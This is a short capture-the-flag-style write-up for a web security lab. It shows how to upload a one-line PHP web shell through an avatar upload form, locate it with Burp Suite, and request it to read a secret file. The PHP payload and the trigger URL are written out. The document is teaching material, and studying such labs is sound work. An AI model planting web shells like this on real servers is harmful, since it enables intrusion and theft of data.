

# Remote code execution via web shell upload

I went to my account and entered the provided credentials **username=wiener and password=peter**. And then I shown up a page where there was option to upload an image.

This is the point where we can upload our web shell to read the file **/home/carlos/secret**. 

Firstly, we need create the payload, that is:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

save it into a .php file and upload it. 

Now, make sure your burpsuite is open and actively capturing the requests in http proxy tab. Then open your account of the lab and then go to http proxy tab in burpsuite. There you see the following request as shown in image:


Now, you know where your file is at the server. Now, you only need to trigger the file by making a GET request through your browser and you will get the value. At following path you will trigger the shell and get the value.

`https://0a3c006b032442e88471234300520008.web-security-academy.net/files/avatars/webShell.php`

###### Boom!